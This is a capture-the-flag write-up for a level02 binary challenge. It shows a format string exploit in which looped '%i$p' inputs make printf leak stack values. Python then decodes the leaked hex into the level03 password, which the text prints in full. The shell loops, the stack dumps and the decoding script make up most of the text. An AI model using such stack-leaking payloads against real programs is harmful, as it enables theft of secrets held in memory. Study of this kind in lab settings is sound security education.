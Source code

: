 Here we see that one more time the executable prompts for a username and a password.
This time looking at the decompiled code we see that it would be possible to attack this binary using a format string exploit, because it's calling printf with a variable format as parameter.

The other thing we see is that the binary is reading the password we want (/home/users/level03/.pass) at the beginning of the file, that means that at the moment we use printf, the password is somewhere on the stack.
Knowing it, we decide to use printf to print the stack, at least the 64 first values under the shape of hex pointers, so we can first measure the size of the printable stack.

```sh
for ((i = 1; i < 64; i++)); do
	echo "AAAA $i - %$i\$p" |./level02 | grep "does not have access" ; done
```
The echos are where things are happening, here we tell the printf inside level02 to print the ith value on the stack as a hexadecimal pointer and repeat it for i from 1 to 63

```
AAAA1 - 0x7fffffffea10 does not have access!
AAAA2 - (nil) does not have access!
AAAA3 - (nil) does not have access!
AAAA4 - 0x2a2a2a2a2a2a2a2a does not have access!
AAAA5 - 0x2a2a2a2a2a2a2a2a does not have access!
AAAA6 - 0x7fffffffec08 does not have access!
AAAA7 - 0x1f7ff9a08 does not have access!
AAAA8 - (nil) does not have access!
AAAA9 - (nil) does not have access!
AAAA10 - (nil) does not have access!
AAAA11 - (nil) does not have access!
AAAA12 - (nil) does not have access!
AAAA13 - (nil) does not have access!
AAAA14 - (nil) does not have access!
AAAA15 - (nil) does not have access!
AAAA16 - (nil) does not have access!
AAAA17 - (nil) does not have access!
AAAA18 - (nil) does not have access!
AAAA19 - (nil) does not have access!
AAAA20 - 0x100000000 does not have access!
AAAA21 - (nil) does not have access!
AAAA22 - 0x756e505234376848 does not have access!
AAAA23 - 0x45414a3561733951 does not have access!
AAAA24 - 0x377a7143574e6758 does not have access!
AAAA25 - 0x354a35686e475873 does not have access!
AAAA26 - 0x48336750664b394d does not have access!
AAAA27 - (nil) does not have access!
AAAA28 - 0x2d20383241414141 does not have access!
AAAA29 - 0x702439322520 does not have access!
AAAA30 - (nil) does not have access!
AAAA31 - (nil) does not have access!
AAAA32 - (nil) does not have access!
AAAA33 - (nil) does not have access!
AAAA34 - (nil) does not have access!
AAAA35 - (nil) does not have access!
AAAA36 - (nil) does not have access!
AAAA37 - (nil) does not have access!
AAAA38 - (nil) does not have access!
AAAA39 - (nil) does not have access!
AAAA40 - 0x2900000000 does not have access!
AAAA41 - 0x602010 does not have access!
AAAA42 - (nil) does not have access!
AAAA43 - 0x7ffff7a3d7ed does not have access!
AAAA44 - (nil) does not have access!
AAAA45 - 0x7fffffffec08 does not have access!
AAAA46 - 0x100000000 does not have access!
AAAA47 - 0x400814 does not have access!
AAAA48 - (nil) does not have access!
AAAA49 - 0x1b3535d016b2991e does not have access!
AAAA50 - 0x400730 does not have access!
AAAA51 - 0x7fffffffec00 does not have access!
AAAA52 - (nil) does not have access!
AAAA53 - (nil) does not have access!
AAAA54 - 0x6f9d83a9a2baacb5 does not have access!
AAAA55 - 0xe414ab7a767334b3 does not have access!
AAAA56 - 0x7fff00000000 does not have access!
AAAA57 - (nil) does not have access!
AAAA58 - (nil) does not have access!
AAAA59 - 0x400ac0 does not have access!
AAAA60 - 0x7fffffffec08 does not have access!
AAAA61 - 0x1 does not have access!
AAAA62 - (nil) does not have access!
AAAA63 - (nil) does not have access!
```

We can see line 28 that we printed 41414141 that is the hex code for AAAA that we asked printf to print first.
that means that after the 28th line all that is printed is after the printf string on the stack, and that we have to look above this line.

the new script will look like :

```sh
for ((i = 1; i < 28; i++)); do
	echo "$i - %$i\$p" |./level02 | grep "does not have access"; done
```


Here is the result of this script.
```
1 - 0x7fffffffea10 does not have access!
2 - (nil) does not have access!
3 - (nil) does not have access!
4 - 0x2a2a2a2a2a2a2a2a does not have access!
5 - 0x2a2a2a2a2a2a2a2a does not have access!
6 - 0x7fffffffec08 does not have access!
7 - 0x1f7ff9a08 does not have access!
8 - (nil) does not have access!
9 - (nil) does not have access!
10 - (nil) does not have access!
11 - (nil) does not have access!
12 - (nil) does not have access!
13 - (nil) does not have access!
14 - (nil) does not have access!
15 - (nil) does not have access!
16 - (nil) does not have access!
17 - (nil) does not have access!
18 - (nil) does not have access!
19 - (nil) does not have access!
20 - 0x100000000 does not have access!
21 - (nil) does not have access!
22 - 0x756e505234376848 does not have access!
23 - 0x45414a3561733951 does not have access!
24 - 0x377a7143574e6758 does not have access!
25 - 0x354a35686e475873 does not have access!
26 - 0x48336750664b394d does not have access!
27 - (nil) does not have access!
```
The most random block we see is from line 22 to 26.
so we try to decode and reverse those to big endian using python :

```python
tab = ['756e505234376848', '45414a3561733951', '377a7143574e6758', '354a35686e475873', '48336750664b394d']
for i in tab:
    print(i.decode('hex')[::-1])
```

That gives us :
```
Hh74RPnu
Q9sa5JAE
XgNWCqz7
sXGnh5J5
M9KfPg3H
```

Displayed as a string it's like 'Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H'.
And turns out this works as the password to log as level03, I think we have the flag we wanted.